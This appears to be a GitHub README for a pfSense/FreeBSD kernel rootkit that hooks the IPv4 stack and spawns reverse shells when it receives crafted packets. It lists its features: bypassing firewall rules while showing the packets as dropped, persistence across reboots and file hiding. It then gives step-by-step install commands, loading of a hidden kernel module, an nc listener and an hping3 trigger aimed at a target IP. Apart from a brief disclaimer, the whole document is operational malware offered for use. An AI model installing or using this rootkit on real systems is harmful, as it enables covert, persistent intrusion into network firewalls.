 # House of Sharad - pfSense Rootkit

## 🚀 Overview

House of Sharad is a pfSense rootkit that hooks into the IPv4 stack of the FreeBSD kernel, allowing for stealthy reverse shells by detecting specially crafted packets.

## 🔥 Huge Thanks

First and foremost, a massive thank you to my friend Sharad (mineo333) for helping implement the core functionality of forking a process and executing kern_execve() in the child. This is what enables command execution when a packet with a specific source port is detected. This rootkit wouldn't be possible without his help.

Additionally, the file-hiding functionality is directly borrowed from BlueDragonSecurity's (bluedragonsecurity) bsd_freebsd project. Huge thanks for this work!

## 📌 Compatibility

The precompiled .ko files are mainly compatable with pfSense 2.7.2 CE but have also worked for pfSense 2.7.1 CE.

If you need to compile them yourself, you must do so within a pfSense environment (not just a compatible FreeBSD kernel).

Follow the setup guide: extra/how_to_setup_pfsense_to_compile.txt.

## 🛠️ Features

✅ Hooks into pfSense’s IPv4 stack for stealthy reverse shell execution

✅ Bypasses firewall rules (even if attacker IP/port is blocked) while showing malicous incoming packets as dropped

✅ Persistance accorss reboots and unloading

✅ File hiding functionality

✅ Uses socat for reliable reverse shells (pfSense’s nc lacks reverse shell support)

## 🏗️ Installation

### 1️⃣ Cloning and Setup

### Clone the repository
git clone https://github.com/Mon-keyBoy/house_of_sharad.git

```cd house_of_sharad```

### Set execution permissions
```chmod +x load_and_setup.sh```

### Run the setup script
```./load_and_setup.sh```

Once the script completes, you'll be inside a ghost ```/house_of_sharad``` directory.  To return to root, run:

```cd /```

## 🛡️ Getting a Reverse Shell

### 1️⃣ Start a Listener

On your attacking machine, open a terminal and start a listener:

```nc -lvnp 7000```

### 2️⃣ Trigger the Reverse Shell

In another terminal, send packets that will activate the rootkit:

```sudo hping3 -S -p 80 -s 6969 <TARGET_IP>```

🔹 Port 80 is a good choice for the destination port.

🔹 If the shell doesn’t connect after ~5 packets, press Ctrl + C and re-run the command (packet filtering can be finicky).

## 🧩 Additional Notes

Persistence: This rootkit is loaded via apeshit.sh upon boot, which is setup by load_and_setup.sh.

Extra Fun: The extra/ directory contains a simple LKM that prints a face endlessly to the terminal (input still works, but it scrolls rapidly). To stop it, simply unload the module, this is also finickey and the texct might just appear in kernel logs instead (this happened in pfSense 2.7.1 CE but it worked as intended in pfSense 2.7.2 CE).

### Loading It

```kldload /boot/modules/.evil/evil.ko```

# ⚠️ Disclaimer: This project is for educational and research purposes only. Unauthorized use may be illegal. The author takes no responsibility for misuse.

